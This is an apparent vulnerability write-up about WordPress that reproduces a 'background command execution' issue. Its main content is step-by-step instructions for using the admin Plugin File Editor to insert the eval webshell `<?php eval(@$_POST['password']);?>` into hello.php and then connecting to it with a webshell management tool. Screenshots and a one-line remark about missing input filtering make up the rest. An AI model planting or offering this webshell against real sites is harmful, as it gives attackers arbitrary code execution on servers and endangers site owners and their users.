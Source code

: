 # WordPress Background command execution vulnerability 
## Build the local environment
https://cn.wordpress.org/download/#download-install
## Vulnerability recurrence

/wp-admin/profile.php
![image](https://user-images.githubusercontent.com/45749015/216503131-25f90fa2-17f2-48f5-b52f-579d49ab3c1c.png)

Click >> Tools  >> Plugin File Editor  >>  Change Code hello.php   >>  Add Code `<?php eval(@$_POST['password']);?>`
  >> Save

![image](https://user-images.githubusercontent.com/45749015/216503630-cbe9baa1-aff5-4dbc-be66-9107e5102a0b.png)
Use the webshell management tool to connect
![image](https://user-images.githubusercontent.com/45749015/216503750-c1decaba-45bf-464d-9b5f-1af9ea720f43.png)
![image](https://user-images.githubusercontent.com/45749015/216503781-51f44f7b-af40-4dbd-8500-f736b217c86c.png)
## code analysis
Get address:
![image](https://user-images.githubusercontent.com/45749015/216503925-9d8f3295-946c-4d5b-b461-b7b0e8c3d94b.png)
The content is not filtered, resulting in the successful saving of illegal programs
![image](https://user-images.githubusercontent.com/45749015/216503967-c5fd373d-3d91-47a1-aaaf-87f931f3bc1e.png)
